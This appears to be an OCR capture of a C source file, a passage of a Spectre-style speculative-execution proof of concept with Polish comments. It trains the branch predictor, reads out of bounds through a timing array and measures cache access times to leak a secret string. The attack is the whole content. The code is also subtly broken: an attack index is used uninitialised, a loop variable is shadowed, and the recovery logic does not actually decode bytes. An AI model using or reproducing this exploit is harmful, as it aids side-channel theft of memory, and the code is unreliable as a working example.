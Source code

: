 ```c
        mov trash, eax
        rdtsc
        mov time2, eax
        lfence
    }

    return time2 - time1;
}

// Funkcja wykorzystująca spekulatywne wykonanie instrukcji
void malicious_code(size_t x, const uint8_t *data, size_t data_length) {
    if (x < data_length) {
        temp &= timing_array[data[x] * CACHE_LINE_SIZE];
    }
}

void spectre_attack(const uint8_t *data, size_t data_length, uint8_t *output) {
    size_t training_x = 0;
    size_t malicious_x;

    for (size_t i = 0; i < 256; i++) {
        flush_cache();

        // Pętla treningowa
        for (int j = 0; j < 30; j++) {
            _mm_lfence();
            malicious_code(training_x % data_length, data, data_length);
        }

        // Atak
        _mm_lfence();
        malicious_code(malicious_x, data, data_length);

        // Analiza czasów dostępu do timing_array
        for (size_t i = 0; i < CACHE_SIZE; i++) {
            uint64_t time = measure_access_time(&timing_array[i * CACHE_LINE_SIZE]);

            if (time < threshold) {
                output[i]++;
            }
        }
    }
}

int main() {
    uint8_t secret_data[] = "Spectre - Secret Data";
    size_t data_length = sizeof(secret_data);
    uint8_t output[256] = {0};

    srand(time(NULL));
    size_t malicious_x = (size_t)(secret_data - (char *)timing_array + (rand() % 256));

    spectre_attack(secret_data, data_length, output);

    for (size_t i = 0; i < 256; i++) {
        if (output[i]) {
            printf("Recovered byte at index %zu: 0x%02x ('%c')\n", i, i, (char)i);
        }
    }

    return 0;
}
```